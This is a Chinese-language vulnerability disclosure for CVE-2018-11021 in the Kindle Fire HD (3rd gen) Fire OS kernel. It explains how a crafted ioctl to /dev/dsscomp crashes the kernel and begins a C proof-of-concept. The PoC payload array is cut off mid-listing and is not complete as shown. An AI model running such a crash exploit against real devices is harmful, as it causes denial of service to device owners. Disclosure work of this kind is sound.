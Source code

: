 ```yaml
---
title: "（CVE-2018-11021）Amazon Kindle Fire HD (3rd) Fire OS kernel组件安全漏洞"
id: zhfly3373
---
```


# （CVE-2018-11021）Amazon Kindle Fire HD (3rd) Fire OS kernel组件安全漏洞

## 一、漏洞简介

Amazon Kindle Fire HD（3rd）Fire OS 4.5.5.3内核组件中的内核模块/omap/drivers/video/omap2/dsscomp/device.c允许攻击者通过设备/ dev上ioctl的参数注入特制参数/ dsscomp与命令**1118064517**并导致内核崩溃。

要探索此漏洞，必须打开设备文件/ dev / dsscomp，并使用命令**1118064517**和精心设计的有效负载作为第三个参数在此设备文件上调用ioctl系统调用。

## 二、漏洞影响

Fire OS 4.5.5.3

## 三、复现过程

### poc

```
/*
 * This is poc of Kindle Fire HD 3rd
 * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
 * Related buggy struct name is dsscomp_setup_dispc_data.
 * This Poc should run with permission to do ioctl on /dev/dsscomp.
 *
 */
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = “/dev/dsscomp”;

static command = 1118064517;

int main(int argc, char **argv, char **env) {

unsigned int payload[] = {

0xffffffff,

0x00000003,

0x5d200040,

0x79900008,

0x8f5928bd,

0x78b02422,

0x00000000,

0xffffffff,
```